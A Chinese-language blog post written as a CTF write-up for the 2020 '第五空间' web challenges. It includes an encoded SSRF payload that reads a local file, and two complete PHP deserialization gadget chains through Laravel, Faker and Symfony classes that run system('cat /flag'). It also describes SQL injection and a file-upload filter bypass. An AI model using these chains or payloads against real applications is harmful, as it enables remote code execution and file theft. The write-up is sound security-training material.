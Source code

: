 ```yaml
---
layout:     post
title:      第五空间-WP
subtitle:   第五空间 web wp
date:       2020-06-27
author:     BY Diego
header-img: /img/wenzhang/post-bg-格式化.jpgimg/wenzhang/post-bg-第五空间.jpg
catalog: true
tags:
    - WP
    - 比赛
---
```


# hate-php

简单的无字符webshell 利用取反绕过 + php7 特性

![NwNpLV.png](https://s1.ax1x.com/2020/06/24/NwNpLV.png)

![NwNSs0.png](https://s1.ax1x.com/2020/06/24/NwNSs0.png)

`flag{ecee9b5f24f8aede87cdda995fed079c}`

# do you know

非预期解

index.php 存在如下限制
![NwaTqx.png](https://s1.ax1x.com/2020/06/24/NwaTqx.png)
检测 `$_SERVER['QUERY_STRING']` 但是不会url解码 ，因此url编码绕过

下面几个限制 `_GET` 最后一个参数复制给url
构造如下
```
a=1&b=1&url=..
```

后面是php的curl， 因此为ssrf ，支持file，dict等协议 尝试读文件
![NwaqIO.png](https://s1.ax1x.com/2020/06/24/NwaqIO.png)
xxe.php 存在main.php 和 hint.php
读取文件main.php
![NwabdK.png](https://s1.ax1x.com/2020/06/24/NwabdK.png)

发现存在flag.php
![NwaHZ6.png](https://s1.ax1x.com/2020/06/24/NwaHZ6.png)

payload
```
?a=1&b=1&url=%66%69%6c%65%3a%2f%2f%2f%76%61%72%2f%77%77%77%2f%68%74%6d%6c%2f%66%6c%61%67%2e%70%68%70
```
`flag{5bc0bc291d322450679866d5ddf0a346}`

# laravel

从网上公开的利用链已经不能用了 ，尝试自己挖掘

先寻找利用点 全局搜索`call_user_func`,目标锁定在
![NwBdwq.png](https://s1.ax1x.com/2020/06/24/NwBdwq.png)

然后寻找起始点`__destruct` 而这里的`__destruct` 需要调用上面的`__call`，找到符合条件的点`\vendor\laravel\framework\src\Illuminate\Routing\PendingResourceRegistration.php`
![NwBamn.png](https://s1.ax1x.com/2020/06/24/NwBamn.png)

会去调用`register`，而`register`又会调用`$this->registrar->register()`,同时`$this->registrar`可控，因此调用了`__call`

利用

目的是利用`vendor\fzaninotto\faker\src\Faker\ValidGenerator.php`中`__destruct`的`call_user_func`
这里`$this->validator`可控 `$res` 为call_user_func_array 的返回值
![NwBNOs.png](https://s1.ax1x.com/2020/06/24/NwBNOs.png)

因此还需要寻找一个返回值可控的点，同时由于`name` 不可控因此 调用的方法不可控，但是会调用可控制类的`__call`方法，因此再寻找一个符合条件的`__call` 方法

`vendor\fzaninotto\faker\src\Faker\DefaultGenerator.php` 中 `$this->default`可控 因此`$res`可控
![NwBtyj.png](https://s1.ax1x.com/2020/06/24/NwBtyj.png)


最终`call_user_func`全部可控,构造链如下
```php
<?php

namespace Illuminate\Routing {

	class PendingResourceRegistration{

    	protected $registrar;
    	protected $registered = false;
    	public function __construct(){

    	    $this->registrar = new \Faker\ValidGenerator();
    	}
	}

}

namespace Faker {
	class ValidGenerator{
    	protected $generator ;//= new DefaultGenerator();
    	protected $validator;
    	protected $maxRetries=1;

    	public function __construct(){

    		$this->generator = new DefaultGenerator();
    		$this->validator = "system";

    	}
    }

    class DefaultGenerator{
    	protected $default="cat /flag";
    }

}

namespace {

	$a = new Illuminate\Routing\PendingResourceRegistration();
	echo urlencode(serialize($a));
}
?>
```
亦或者如下
```php
<?php
namespace Faker {
	class ValidGenerator{
    	protected $generator ;//= new DefaultGenerator();
    	protected $validator;
    	protected $maxRetries=1;

    	public function __construct(){

    		$this->generator = new DefaultGenerator();
    		$this->validator = "system";

    	}
    }

    class DefaultGenerator{
    	protected $default="cat /flag";
    }

}

namespace Symfony\Component\Routing\Loader\Configurator{

	class CollectionConfigurator{
		private $parent;
    	private $parentConfigurator;
    	private $parentPrefixes;
    	public function __construct(){
    		$this->prefixes = 1;

    	    $this->parent = new \Faker\ValidGenerator();
    	}
	}
}

namespace {

	$a = new Symfony\Component\Routing\Loader\Configurator\CollectionConfigurator();
	echo urlencode(serialize($a));
}
```
![NwDPXj.png](https://s1.ax1x.com/2020/06/24/NwDPXj.png)
`flag{90569859b0164266ef04461bbc1d5cc5}`


# 美团外卖

一开始以为是个注入题目 可以`'union select 'md5'# ` 然后对应值登入 但是发现是个空壳


扫描目录发现存在www.zip
审计存在注入漏洞 daochu.php（无任何过滤）
![NwsNOH.png](https://s1.ax1x.com/2020/06/24/NwsNOH.png)

注入发现hints
![Nwsd0A.png](https://s1.ax1x.com/2020/06/24/Nwsd0A.png)

是个后台地址，同时发现框架使用了webuploader 插件 ，存在上传漏洞
`lib\webuploader\0.1.5\server\preview.php`多加了限制 然后大写绕过
![Nwsamd.png](https://s1.ax1x.com/2020/06/24/Nwsamd.png)

![NwswTI.png](https://s1.ax1x.com/2020/06/24/NwswTI.png)
最后`?file = /flag` 即可


![Nwst6e.png](https://s1.ax1x.com/2020/06/24/Nwst6e.png)

`flag{90569859b0164266ef04461bbc1d5cc5}`
